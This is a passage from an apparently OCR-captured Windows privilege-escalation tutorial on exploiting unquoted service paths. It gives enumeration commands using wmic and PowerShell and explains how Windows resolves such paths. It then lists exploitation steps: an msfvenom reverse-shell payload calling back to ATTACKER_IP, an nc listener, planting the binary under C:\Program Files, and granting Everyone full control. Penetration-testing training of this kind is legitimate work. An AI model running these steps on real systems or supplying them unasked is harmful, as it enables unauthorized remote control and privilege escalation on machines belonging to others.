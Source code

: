 5. Restart the service:
   ```cmd
   sc stop SERVICE_NAME
   sc start SERVICE_NAME
   ```

## Method 2: Unquoted Service Paths

When a service's path contains spaces and isn't enclosed in quotes, Windows will try to execute each valid path with spaces.

### Identifying Vulnerable Services

```cmd
# Find services with unquoted paths containing spaces
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# PowerShell alternative
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notmatch "`"" -and $_.PathName -match " "} | Select-Object Name, PathName, StartMode
```

### How It Works

For a service with path `C:\Program Files\Vulnerable Service\service.exe`, Windows tries to execute:
1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Service\service.exe`

### Exploitation Steps

1. Identify a writable directory in the service path:
   ```cmd
   # Check directory permissions
   icacls "C:\Program Files"
   icacls "C:\Program Files\Vulnerable Service"
   ```

2. Generate a malicious executable:
   ```bash
   # On Kali Linux
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o malicious.exe
   ```

3. Create a listener:
   ```bash
   nc -lvp 4446
   ```

4. Place the malicious executable in the path with proper name:
   ```cmd
   # Example: exploiting "C:\Program Files\Vulnerable Service\service.exe"
   copy malicious.exe "C:\Program Files\Vulnerable.exe"
   
   # Ensure proper permissions
   icacls "C:\Program Files\Vulnerable.exe" /grant Everyone:F
   ```
